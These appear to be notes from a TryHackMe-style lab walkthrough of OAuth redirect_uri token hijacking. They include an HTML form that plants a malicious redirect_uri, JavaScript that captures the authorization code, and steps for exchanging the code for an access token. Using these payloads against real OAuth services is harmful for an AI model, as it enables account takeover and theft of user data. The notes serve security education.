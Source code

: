 Tokens play a critical role in the OAuth 2.0 framework, acting as digital keys that grant access to protected resources. These tokens are issued by the authorization server and redirected to the client application based on the `redirect_uri` parameter. This redirection is crucial in the OAuth flow, ensuring that tokens are securely transmitted to the intended recipient. However, if the `redirect_uri` is not well protected, attackers can exploit it to hijack tokens.

## Role of Redirect_URI
The `redirect_uri` parameter is specified during the OAuth flow to direct where the authorization server should send the token after authorization. This URI must be pre-registered in the application settings to prevent open redirect vulnerabilities. During the OAuth process, the server checks that the provided `redirect_uri` matches one of the registered URIs.

## Vulnerability
An insecure `redirect_uri` can lead to severe security issues. If attackers gain control over any domain or URI listed in the `redirect_uri`, they can manipulate the flow to intercept tokens. Here’s how this can be exploited:

- Consider an OAuth application with the following registered redirect URIs as shown below:
	![](Pasted%20image%2020241201165923.png)
- **Attacker's Strategy**: If an attacker gains control over `dev.bistro.thm`, they can exploit the OAuth flow. By setting the `redirect_uri` to `http://dev.bistro.thm/callback`, the authorization server will send the token to this controlled domain.
- **Crafted Attack:** The attacker initiates an OAuth flow and ensures the `redirect_uri` points to their controlled domain. After the user authorizes the application, the token is sent to `http://dev.bistro.thm/callback`. The attacker can now capture this token and use it to access protected resources.

### Preparing the Payload (Attacker Perspective)
For this exercise, we assume that the attacker has compromised the domain `dev.bistro.thm:8002` and can host any HTML page on the server. Consider Tom, a victim to whom we will send a link. The attacker can craft a simple HTML page (`redirect_uri.html`) with the following code:
```html
    <form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
            <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
            <input type="submit" value="Hijack OAuth">
        </form>
        ```

This form sends a hidden `redirect_uri` parameter with the value `http://dev.bistro.thm:8002/malicious_redirect.html` and submits a request to [http://coffee.thm:8000/oauthdemo/oauth_login/.](http://coffee.thm:8000/oauthdemo/oauth_login/)  The `malicious_redirect.html` page then intercepts the authorization code from the URL using the following code:

```javascript
<script>
    // Extract the authorization code from the URL
    const urlParams = new URLSearchParams(window.location.search);
    const code = urlParams.get('code');
    document.getElementById('auth_code').innerText = code;
    console.log("Intercepted Authorization Code:", code);
    // code to save the acquired code in database/file etc
</script>
```

 **1. Extracting the Authorization Code from the URL:**
	`const urlParams = new URLSearchParams(window.location.search);`
	This line creates an instance of `URLSearchParams`, which allows easy access to query parameters in the URL.
	    - **`window.location.search`:** Refers to the part of the URL after the `?` symbol (query string).  
		_Example:_ If the URL is `http://example.com?code=abc123`, `urlParams` will process `code=abc123`.

**2. Getting the `code` Parameter:**
	`const code = urlParams.get('code');`
	This extracts the value of the `code` parameter from the query string.  
	    _Example:_ If the query string is `?code=abc123`, the variable `code` will be set to `"abc123"`.

**3. Displaying the Authorization Code on the Page:**
	`document.getElementById('auth_code').innerText = code;`
	Finds an HTML element with the ID `auth_code` and sets its text content to the extracted authorization code.  
	    _Example:_ If the HTML contains `<span id="auth_code"></span>`, it will display the code inside that element.

**4. Logging the Authorization Code to the Console:**
	`console.log("Intercepted Authorization Code:", code);`
	Outputs the extracted authorization code to the browser's developer console for debugging or monitoring purposes.

﻿*Note:* 
	﻿Since the attacker has complete control over the subdomain, once he redirects a victim to the attacker-controlled domain, he will save the credentials in a database/file, etc., for later usage. Moreover, the redirection from redirect_uri to the original URL would be so quick that the victim would have no idea that his authorization code has been hijacked.

The attacker can send Tom the link ([http://dev.bistro.thm:8002/redirect_uri.html](http://dev.bistro.thm:8002/redirect_uri.html)) through social engineering tactics or a CSRF attack. The victim, unsuspecting of the malicious intent, clicks on the link, which takes them to the URL `dev.bistro.thm:8002/redirect_uri.html` 
In the attached VM, open the [link](http://dev.bistro.thm:8002/redirect_uri.html) in the browser as a victim. Here, you will see the following screen:
	![](Pasted%20image%2020241201171215.png)

In the attached VM, when the victim clicks the "**Login via OAuth**" button, the form calls to `http://coffee.thm:8000/oauthdemo/oauth_login/` but with a falsified `redirect_uri`. Once the victim enters his credentials (`victim:victim123`) for the OAuth provider, it directs the OAuth authorization code to the attacker's controlled URL (`http://dev.bistro.thm:8002/malicious_redirect.html`), allowing the attacker to intercept and misuse the authorization code as shown below:
	![](Pasted%20image%2020241201171257.png)

## Attacker Perspective
From the attacker’s machine, they can utilize can utilize the intercepted authorization code to call the `/callback` endpoint and exchange it for a valid access token. In an OAuth flow, as we saw earlier, the `/callback` endpoint is always available, accepting the code parameter and returning an access token. With this token, the attacker gains unauthorized access to the user's protected resources. To get the access token, visit the URL [http://bistro.thm:8000/oauthdemo/callbackforflag/?code=xxxxx](http://bistro.thm:8000/oauthdemo/callbackforflag/?code=xxxx) and replace the `code` parameter with the acquired authorization code.
	![](Pasted%20image%2020241201171358.png)

- Accessing malicious redirect page --> intercept the victim's code 
	![](Pasted%20image%2020241201172136.png)
- using the victim's code to impersonate and hijack his session
	![](Pasted%20image%2020241201172246.png)
